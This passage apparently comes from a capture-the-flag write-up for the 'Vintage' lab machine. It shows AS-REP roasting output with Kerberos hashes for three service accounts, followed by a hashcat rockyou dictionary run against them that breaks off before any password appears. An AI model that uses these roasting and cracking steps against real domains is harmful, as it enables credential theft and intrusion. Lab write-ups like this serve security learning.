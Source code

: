 ```bash
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:45da0adfb1f17d7a21c6477b20635edb$5ebc4b7b47601ca7085f297ee1c1988e768052b4007bdb59fece2ac549d1ac6483aacafe1d9c80f622b80430ca4eef035bb6be796d4ef92703d616447ed4de4122f5b7e52ae3808a7d9e489b8a4ed8d8c48c198c22aab0198ffa567730a9fc1714bf02b377eb0f9206100909cb575a36cfa2f1dbf9d94e2b158da8b01b1422e5dbfce68b770a49c417dea8052cc26c2a8ba507e8419c7a5d5fc65be0b8cb503ab5da42f3612eb244e2170196bb646d4feeeb422d48daa67235bd2cb03d6a2e8c3fda74b2c4f63fc9f9bbde1cb3ddbabb38045fa8c481e3afff75f6f83d6e18cb2ab921feffc1379fb4b4
$krb5asrep$23$svc_ldap@VINTAGE.HTB:d463e18baf287c27b5181cf45aa1eaab$c2b55e479d45b1735174f2a2390db82f2d147f50234876da30322590f9c424eae9ddb65bed68465a4842d9dcda59f9fa86d0706a8cb84689e6394a26a25c97e2898a1453a4bd5af62852599d7b91ddfca473af64a61e0ea86ec484b2dcef37a5a5b10d395e79df9a1eb12bf6dbe6113dd49ac0508a050f4453e4c7899f5dcb88f1e9a062b0481755d5b0099bbc178d8038b688605e4ef55999d565ed410e3f1c3b37c8ccab2b47ca2ba22bddb35c1d0b04b750b012bf705aec8f69e0fecb1b05bae9c886ebb83ed660961fe390ccbf343430a89716f0af5f30f075be2b1627aef6adafbfb1ee171f4276
$krb5asrep$23$svc_ark@VINTAGE.HTB:b9cae9b7e59b147fc077cabf2442afd4$db833fe5ce1ad887c5f30d2cbbc48e294d3dde348fcac316fe8f1ad068be1d1e6882fa213cf7ea2c12ea4e1ef05af0913c010853497d33ef9b1415363bd44b1e3b0f94e2acda670c89077f3e5cc1e4dfb400efdaa7c696685ee696e03087a5ef4a6b8d7dc070aa071726fc7a98dfcd407c8fe28985e0f134cb12bbf8cdfdce4a8668cf4709bcbb70f88452208a1a517237a10d1c006eb6578e639e0e013e7dc28fe7eb759383bac09f2b75c7349d379ee6aac9fe9aa1498896b76b085a4b3cfbfec673afc673e4536b07457ff86d61fd324eb9790e86660879cfcce3b446880f2626caf01f9a30a6687a
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

And we crack the first kerberos hash with hashcat first we put it in a `hash.txt` file and once that is done we run the following command to decrypt the password

```bash
hashcat -a 3 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

```bash
❯ hashcat -a 0 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921518
```